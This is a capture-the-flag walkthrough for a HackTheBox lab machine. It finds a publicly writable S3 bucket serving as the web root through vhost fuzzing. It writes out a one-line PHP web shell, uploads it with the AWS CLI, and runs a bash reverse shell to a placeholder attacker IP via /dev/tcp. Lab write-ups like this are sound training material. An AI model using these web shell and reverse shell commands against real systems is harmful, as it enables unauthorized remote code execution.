



A "very easy" HTB Starting Point machine hosting a band website ("The Toppers") for a fictional Linux
server. The site's content was found to be entirely backed by a publicly writable Amazon S3 bucket,
exposed through a hidden subdomain discovered via virtual-host fuzzing. With no authentication
required, the bucket's write permissions allowed direct upload of a PHP web shell, which —
because the bucket doubled as the live Apache web root — was immediately executable through the
main site. This gave remote code execution as www-data, escalating quickly to a full
reverse shell and the target flag.
Initial full-port service discovery via db_nmap inside msfconsole:
db_nmap -sC -sV -A -p- --min-rate 5000 <target>| Port | Service | Version |
|---|---|---|
| 22/tcp | ssh | OpenSSH 7.6p1 (Ubuntu Linux) |
| 80/tcp | http | Apache httpd 2.4.29 (Ubuntu) |

Only two ports open: SSH and a web server with the page title "The Toppers" — a band-themed corporate site. No obvious vulnerabilities on the surface; the interesting content was hidden behind virtual-host routing.
The site redirected to a bound hostname (thetoppers.htb), which was added to
/etc/hosts. From there, virtual-host fuzzing was used to look for hidden subdomains not
linked anywhere on the visible site:
ffuf -u http://<target> -H "Host: FUZZ.thetoppers.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-fs <baseline_response_size>This surfaced a distinct subdomain returning a completely different (and much smaller) response than the default site:
s3.thetoppers.htb → {"status": "running"}s3. naming
convention was an immediate tell — this endpoint wasn't part of the website's own application
logic, it was a cloud storage service's status endpoint being exposed directly.
With the subdomain added to /etc/hosts, the AWS CLI was configured with dummy (unauthenticated) credentials, since the bucket was expected to be publicly misconfigured:
aws configure
AWS Access Key ID: test
AWS Secret Access Key: test
Default region name: us-east-1
Default output format: jsonListing available buckets against the custom endpoint confirmed anonymous access was permitted:
aws --endpoint=http://s3.thetoppers.htb s3 ls2026-08-22 12:59:11 thetoppers.htbListing the bucket's contents revealed it was directly backing the live website:
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb PRE images/
2026-08-22 12:59:11 0 .htaccess
2026-08-22 12:59:11 11952 index.phpindex.php file size (11952 bytes) matched
exactly the byte count of the live site's homepage — proving the S3 bucket was the web
root, not just a related storage location.
A harmless test file was uploaded directly to the bucket and then requested through the live site to confirm read/write round-trip access:
echo "test" > test.txt
aws --endpoint=http://s3.thetoppers.htb s3 cp test.txt s3://thetoppers.htb/test.txt
curl http://thetoppers.htb/test.txttestFull public write access confirmed, with content immediately served back through Apache on the main domain.
Since the bucket serves directly as the PHP-enabled web root, a minimal command-execution shell was staged and uploaded the same way:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/shell.phpTriggered directly through the live site to confirm code execution:
curl "http://thetoppers.htb/shell.php?cmd=id"uid=33(www-data) gid=33(www-data) groups=33(www-data)
With confirmed command execution, a proper interactive reverse shell was triggered through the same PHP endpoint. A local listener was started first:
nc -lvnp 4444The payload initially failed due to curl choking on unencoded special characters in the raw URL:
curl "http://thetoppers.htb/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'"
curl: (3) URL rejected: Malformed input to a URL functionResolved by letting curl handle URL-encoding automatically via -G and --data-urlencode:
curl -G "http://thetoppers.htb/shell.php" \
--data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'"curl "url?param=value" syntax. -G with
--data-urlencode is the reliable pattern for passing shell one-liners as GET parameters
without hand-encoding every special character.
The listener caught the callback and dropped into an interactive shell:
www-data@three:/var/www/html$ ls
images
index.php
shell.php
test.txt
www-data@three:/var/www/html$ cd ../
www-data@three:/var/www$ ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
[flag redacted]
Flag: [flag redacted]
s3.-prefixed vhost returning a minimal JSON status response is a strong signal of a self-hosted or misconfigured object storage service — worth probing with cloud-specific tooling immediately.aws configure with placeholder values before assuming credentials are a blocker.curl -G --data-urlencode is the clean, repeatable pattern over manually escaping ampersands and redirects in a raw query string.Scarif Operations | th3m4dh4ck3r.com | CPTS prep, Season 11